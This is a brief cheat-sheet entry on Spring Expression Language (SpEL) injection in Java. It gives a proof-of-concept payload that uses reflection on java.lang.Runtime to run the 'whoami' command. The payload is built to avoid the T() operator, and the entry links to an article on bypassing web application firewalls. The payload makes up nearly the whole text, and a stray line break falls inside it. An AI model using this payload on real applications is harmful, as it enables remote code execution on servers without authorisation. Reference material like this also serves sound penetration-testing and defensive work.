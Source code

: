 # Java

### SpeL Injection

Code Exec Poc without `<T>`:

```java
${"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("jav
a.lang.Runtime")).exec("whoami")}
```

[https://pulsesecurity.co.nz/articles/EL-Injection-WAF-Bypass](https://pulsesecurity.co.nz/articles/EL-Injection-WAF-Bypass)

